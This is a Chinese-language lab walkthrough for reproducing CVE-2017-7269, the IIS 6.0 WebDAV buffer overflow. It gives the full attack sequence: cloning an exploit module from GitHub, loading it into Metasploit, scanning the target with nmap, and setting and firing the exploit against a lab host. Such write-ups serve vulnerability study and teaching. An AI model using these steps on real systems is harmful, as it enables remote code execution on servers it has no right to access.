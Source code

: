 ```yaml
---
title: （CVE-2017-7269）IIS 6.0开启Webdav 缓存区溢出漏洞
id: zhfly2967
---
```


# （CVE-2017-7269）IIS 6.0开启Webdav 缓存区溢出漏洞

## 一、漏洞简介

IIS 6.0开启Webdav服务的服务器被爆存在缓存区溢出漏洞导致远程代码随意执行，目前针对 Windows Server 2003 R2 可以稳定利用。

## 二、漏洞影响

## 三、复现过程

### 环境搭建

目标主机：Windows Server 2003 R2
镜像下载：种子文件用迅雷下载:

```
ed2k://|file|cn_win_srv_2003_r2_enterprise_with_sp2_vl_cd1_X13-46432.iso|637917184|284DC0E76945125035B9208B9199E465|/ 
```

IP：192.168.1.104

A.安装IIS6.0服务：

![image](../img/0108404ea834c03f873cfbda3587634c.png)

B.打开WebDAV服务拓展：

![image](../img/8a19db447229f35b439d94e7e03ae4cb.png)

攻击机：kali Linux
镜像下载：https://www.kali.org/downloads/
IP:192.168.1.106

### 配置攻击套件

--首先我们要下载EXP文件，输入：

> git clone https://github.com/ianxtianxt/cve-2017-7269 //下载EXp

> ls //查看当前目录下的文件

![image](../img/81f2e14fa555fe3dc77258792f8de668.png)

--然后我们需要复制EXP到msf框架中#注意复制时，是下划线”_”不要写成cve-2017-7269.rb#，在目录下重命名这个文件为cve_2017_7269.rb，输入：

> cp cve_2017_7269.rb /usr/share/metasploit-framework/modules/exploits/windows/iis/ //复制EXP到相应目录

> cd /usr/share/metasploit-framework/modules/exploits/windows/iis/ //进入目录

> ls //查看当前目录下的文件

![image](../img/ddb2840061c6b42d3a9abe04a8302fad.png)

![image](../img/d64dc9b0c46cb8efe5082072432401ef.png)

--我们使用nmap扫描一下靶机的端口情况，输入：

> nmap 192.168.1.104 //扫描192.168.1.104的端口

![image](../img/203af2d8ee4490d4036f36a387c5dac2.png)

可以看到我们要攻击的80端口已经开启#

### 利用msf开始攻击

![image](../img/97de8eb0bb913a1a0ed37c7ffdff69dc.png)

--然后我们要使用刚才复制进去的EXP套件
输入：

```
msf5 > use exploit/windows/iis/cve_2017_7269 //使用此套件 
```

```
msf5 > show options //查看需要的配置 
```

发现只需要配置RHOSTS(目标IP)，最好把RPORT(目标端口)也配置下

![image](../img/b1739cc3ebdd8a676b9015dd9cf019b9.png)

```
msf5 > set rhosts 192.168.1.104 // 设置目标的IP
msf5 > set rport 80 //设置目标端口 
```

![image](../img/22762da2909b88d3b1a855a7c4646f63.png)

```
msf5 > exploit 
```

![image](../img/57673f4b1b0c03fed233531b3d6680cc.png)